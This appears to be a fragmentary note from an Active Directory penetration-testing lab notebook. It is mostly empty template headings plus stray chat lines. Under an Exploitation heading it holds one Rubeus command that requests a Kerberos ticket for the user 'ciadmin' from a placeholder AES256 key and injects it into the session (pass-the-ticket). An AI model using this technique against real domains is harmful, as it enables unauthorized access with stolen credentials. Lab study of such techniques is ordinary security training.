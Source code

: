 ## Overview 
// Some code

Hello Trying
Are u syncing
yes
## Enumeration 
// Some code

## Exploitation 
// Some code
``
```
C:\AD\Tools\Rubeus.exe asktgt /user:ciadmin /aes256:<aes256 key of ciadmin> /opsec /createnetonly:C:\Windows\System32\cmd.exe /show /ptt
```

[[Reconnaissance (TA0043)]]

[[#Enumeration]] 

